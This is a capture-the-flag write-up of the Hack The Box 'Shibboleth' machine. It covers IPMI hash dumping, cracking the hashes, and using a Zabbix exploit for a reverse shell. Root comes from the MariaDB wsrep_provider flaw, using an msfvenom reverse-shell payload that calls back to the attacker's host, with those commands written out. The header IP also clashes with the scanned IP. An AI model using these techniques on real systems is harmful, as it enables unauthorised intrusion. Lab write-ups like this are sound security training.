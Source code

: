# HTB - Shibboleth

#### Ip: 10.10.10.169
#### Name: Shibboleth
#### Difficulty: Medium

----------------------------------------------------------------------

![shibboleth.png](../assets/shibboleth_assets/shibboleth.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.124 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:45 CDT
Nmap scan report for 10.10.11.124
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds
```

Lets add shibboleth.htb to our `/etc/hosts` file.

Heading to the website we see a site mostly containing anchor tags and lorem ipsum:

![site.png](../assets/shibboleth_assets/site.png)

Though interestingly at the very bottom of the page we see it is running Zabbix:

```text
 Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation 
```

Double checking there were no UDP ports open I found that port 623 was open:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --min-rate 5000 10.10.11.124
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:46 CDT
Nmap scan report for 10.10.11.124
Host is up (0.069s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
623/udp   open   asf-rmcp
21742/udp closed unknown
24511/udp closed unknown
39888/udp closed unknown
40441/udp closed unknown
41446/udp closed unknown
55587/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Port 623 is usually IPMI which has known vulnerabilities:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --script ipmi-version -p 623 shibboleth.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:51 CDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.068s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

Cool, it is running version 2 which can let attackers dump passsword hashes. lets try to exploit this in Metasploit:

![msf.png](../assets/shibboleth_assets/msf.png)

We can now try to crack this hash using JohnTheRipper:

![john.png](../assets/shibboleth_assets/john.png)

Nice! We were able to crack the administrator's hash. Unfortunately we still have no where to use the credentials, so lets keep enumerating. 

Trying some subdomain fuzzing using wfuzz, we get a few matches:

![wfuzz.png](../assets/shibboleth_assets/wfuzz.png)

Lets add these 3 to `/etc/hosts` as well:

```text
monitor.shibboleth.htb
monitoring.shibboleth.htb
zabbix.shibboleth.htb
```

I'm especially interested in zabbix.shibboleth.htb because we suspect we're dealing with zabbix from earlier enumeration.

Heading to the site we find a login page:

![zabbix.png](../assets/shibboleth_assets/zabbix.png)

Cool, we were able to login with the discovered credentials:

![login.png](../assets/shibboleth_assets/login.png)

### Exploitation

At the bottom of the page we see which version number we're dealing with- `Zabbix 5.0.17.`

Searching for exploits I find: https://www.exploit-db.com/exploits/50816

Setting up a NetCat listener and firing the exploit we get a shell back as user zabbix:

![shell.png](../assets/shibboleth_assets/shell.png)

This exploit is especially cool because it links the page where the shell was launched from:

![exploit.png](../assets/shibboleth_assets/exploit.png)

Which is good to know if you ever want to exploit this manually without using a public exploit.

Trying to grab the user.txt flag we get permission denied:

```text
zabbix@shibboleth:/home/ipmi-svc$ cat user.txt 
cat: user.txt: Permission denied
```

There appears to be only one user here in the home directory and we can `su` using the same password discovered before:

```text
zabbix@shibboleth:/home$ ls
ipmi-svc
zabbix@shibboleth:/home$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/home$ whoami
ipmi-svc
```

![user_flag.png](../assets/shibboleth_assets/user_flag.png)

### Privilege Escalation

Browsing around the target we find an interesting file `/etc/zabbix/zabbix_server.conf`

Which contains database credentials:

![creds.png](../assets/shibboleth_assets/creds.png)

Using these credentials to login to MySQL we see it is running version 10.3.25

```text
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1170
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

This version has a command execution vulnerability. https://github.com/Al1ex/CVE-2021-27928

To exploit this first we'll need to generate a reverse shell executable using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=1234 -f elf-so -o shell.so

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: shell.so
```

Next we can use Wget and a Python HTTP server to fetch it:

![transfer.png](../assets/shibboleth_assets/transfer.png)

Then we can execute it with:

```text
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
```
And we instantly get a shell back as root, and we can grab the final flag:

![root_flag.png](../assets/shibboleth_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------
